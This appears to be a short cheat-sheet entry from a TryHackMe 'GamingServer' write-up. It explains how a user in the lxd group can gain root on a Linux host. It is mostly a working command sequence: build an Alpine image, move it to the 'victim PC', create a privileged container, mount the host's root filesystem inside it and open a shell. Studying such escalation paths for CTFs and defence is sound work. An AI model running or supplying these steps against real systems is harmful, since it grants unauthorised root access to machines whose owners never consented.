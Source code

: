 # LXD
-----
If the user is part of the lxd group:
https://github.com/saghul/lxd-alpine-builder.git

Clone this repo and build the image:
```bash
./build-alpine
```

Transfer the output image to the victim PC.

```bash
lxc image import ./alpine*.tar.gz --alias myimage

# before running the image, start and configure the lxd storage pool as default 
lxd init

lxc init myimage mycontainer -c security.privileged=true

lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

lxc start mycontainer
lxc exec mycontainer /bin/sh
```

Now move into ```/mnt/root``` and we can view the root directory of the host machine.

TryHackMe - GamingServer.
